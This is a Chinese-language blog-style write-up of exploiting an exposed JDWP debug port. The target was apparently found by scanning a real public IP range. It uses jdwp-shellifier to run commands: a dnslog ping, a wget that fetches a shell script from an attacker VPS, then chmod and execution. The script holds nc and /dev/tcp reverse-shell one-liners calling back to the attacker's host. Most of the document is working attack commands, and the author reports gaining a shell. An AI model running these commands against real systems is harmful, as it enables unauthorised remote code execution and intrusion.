 # 0x01 打点发现
nmap扫描某ip的C段，用时大概19h，对识别到的指纹信息依次查看，查看到如下信息
```
5005/tcp  open  jdwp       Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_191
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
```
之前复现过JDWP的漏洞，故有此文

# 0x02 简单验证
telnet 106.53.xx.xx 5005  
返回JDWP-Handshake，即表示存在漏洞  
我这边没有返回JDWP-Handshake，不管它，继续尝试利用  
# 0x03 dnslog测试
1、先打个dnslog试试水  
POC下载地址：https://github.com/IOActive/jdwp-shellifier  
执行如下命令  
```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xx.dnslog.cn"
```
dnslog平台成功收到回显，感觉有戏  
# 0x04 尝试反弹shell  
将如下内容保存为shell.txt，放置到vps下，并通过python3开启一个临时的http服务器
```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```
开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果
```
这里要注意，阿里云的vps开启nc监听，需要加个选项n，否则会报错

nc -lnvvp 3333
nc -lnvvp 4444
```
利用POC执行下载shell、对文件赋予可执行权限、执行shell
```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```
成功执行完，vps上并没有收到反弹回来的shell  
思考了一下，payload中使用nc连接vps，目标可能不存在nc，改用sh，修改shell.txt为如下
```
sh -i >& /dev/tcp/101.200.xx.xx/3333 0>&1 | /bin/sh | sh -i >& /dev/tcp/101.200.xx.xx/4444 0>&1%
```
成功接收到反弹shell，如下图  
![image](./pic/1.png)

# 0x04 参考链接：  
https://blog.csdn.net/weixin_43486390/article/details/114259762  

